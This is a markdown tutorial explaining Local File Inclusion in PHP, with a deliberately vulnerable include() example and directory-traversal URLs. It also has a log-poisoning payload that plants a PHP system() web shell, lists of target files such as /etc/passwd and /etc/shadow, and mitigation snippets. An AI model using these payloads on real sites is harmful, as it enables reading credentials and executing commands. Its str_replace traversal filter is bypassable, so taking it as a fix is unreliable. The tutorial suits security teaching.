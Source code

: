 <br>

# Local File Inclusion (LFI)
Local File Inclusion (LFI) is **a web security vulnerability that allows an attacker to include files from the server’s local file system into a web application’s output**. This often happens when user input is not properly validated, enabling attackers to read sensitive files, execute code, or escalate privileges.

## 1. How Local File Inclusion Works
LFI occurs when a web application **dynamically includes a file based on user input without proper validation or sanitization**.

### Vulnerable Code Example  

```
<?php
    $file = $_GET['file'];
    include("pages/" . $file);
?>
```

- Input URL  

```
http://example.com/index.php?file=about.php
```

- The above input includes about.php from the server’s pages/ directory.

### Malicious Input
An attacker can manipulate the file parameter to traverse directories:  

```
http://example.com/index.php?file=../../../../etc/passwd
```

- This includes the /etc/passwd file on a Linux system, leaking user account information.  
<br>

## 2. Exploiting LFI
LFI can be used to

1. **Read Sensitive Files**
  - Access system files like
    - Linux
      - /etc/passwd (user account info)
      - /var/log/apache2/access.log (web server logs)
    - Windows
      - C:\\windows\\win.ini
      - C:\\xampp\\apache\\logs\\access.log
2. **Code Execution**
  - Include files containing malicious PHP code or scripts uploaded to the server.
  - Example  

```
http://example.com/index.php?file=uploads/malicious.php
```

3. **Log Poisoning**
- Write malicious code into server logs and include the log file.
- Steps
  - Send a crafted request that writes a payload into access logs.
  - Include the log file to execute the malicious payload.
- Example payload  

```
http://example.com/%3C?php%20system($_GET['cmd']);%20?%3E
```

- Access log location  

```
http://example.com/index.php?file=../../../../var/log/apache2/access.log&cmd=id
```

4. **Access Configuration Files**
  - Retrieve sensitive server configurations like:
    - wp-config.php in WordPress (database credentials).  
<br>

## 3. Real-World LFI Example
A vulnerable web application might accept a page parameter like this  

```
http://example.com/index.php?page=home.php
```

By exploiting LFI, an attacker could use directory traversal to access sensitive files  

```
http://example.com/index.php?page=../../../../etc/passwd
```

### Result
The content of /etc/passwd is displayed, leaking usernames and system information.  
<br>

## 4. Mitigation Techniques
1. **Input Validation**
  - Ensure user input is validated and sanitized.
  - Allow only predefined or whitelisted file names.

### Example  

```
$allowed_files = ['home.php', 'about.php', 'contact.php'];
if (in_array($file, $allowed_files)) {
    include("pages/" . $file);
} else {
    die("Access Denied");
}
```

2. **Avoid Dynamic File Inclusion**
  - Avoid using include() or require() with user-supplied input.
3. **Disable Directory Traversal**
  - Remove special characters like ../ or ..\\ from input.

### Example  

```
$file = str_replace(array('../', '..\\'), '', $_GET['file']);
```

4. **Restrict File Permissions**
  - Configure proper file and directory permissions
    - Limit access to sensitive files.
    - Ensure uploaded files are placed outside the web root.
5. Use basename() to **Filter Input**
  - Strip directory path traversal attempts.  

```
$file = basename($_GET['file']);
```

6. **Web Application Firewalls (WAFs)**
  - Deploy WAFs to block suspicious file inclusion patterns.
7. **Disable PHP File Execution in Upload Folders**
  - For Apache, add the following .htaccess rule  

```
<Directory "/var/www/html/uploads">
    php_flag engine off
</Directory>
```  
<br>

## 5. Tools to Detect LFI
1. **Burp Suite**
  - Use Burp Intruder to test for directory traversal and LFI.
2. **OWASP ZAP**
  - Automated scanning for LFI vulnerabilities.
3. Manual Testing
  - Test with payloads like  

```
../../../../etc/passwd
..\\..\\..\\..\\windows\\win.ini
```

4. **Metasploit**
  - Exploits LFI vulnerabilities and automates tests.  
<br>

## 6. Common LFI Payloads

### Linux Payloads
- /etc/passwd
- /etc/shadow (requires elevated permissions)
- /var/log/apache2/access.log
- /proc/self/environ

### Windows Payloads
- C:\\windows\\win.ini
- C:\\xampp\\apache\\logs\\access.log

### Other Common Payloads
- ../../../../../etc/hosts
- ../../../../var/log/nginx/error.log  
<br>

## 7. Summary

| Aspect | Details |
| ------ | ------- |
| What is LFI? | A vulnerability allowing inclusion of local server files. |
| Impact | Reading sensitive files, executing malicious code, log poisoning. |
| Exploitation Methods | Directory traversal, uploading files, including logs for code execution. |
| Prevention Techniques | Input validation, file whitelisting, disabling directory traversal. |
| Tools | Burp Suite, OWASP ZAP, Metasploit, manual testing. |

**Local File Inclusion (LFI) is a dangerous vulnerability that can expose sensitive server files or even enable remote code execution if combined with techniques like log poisoning or file uploads**. Proper **input validation**, **restricting dynamic file inclusion**, and **enforcing secure configurations** are critical defenses to prevent LFI exploits.  
<br>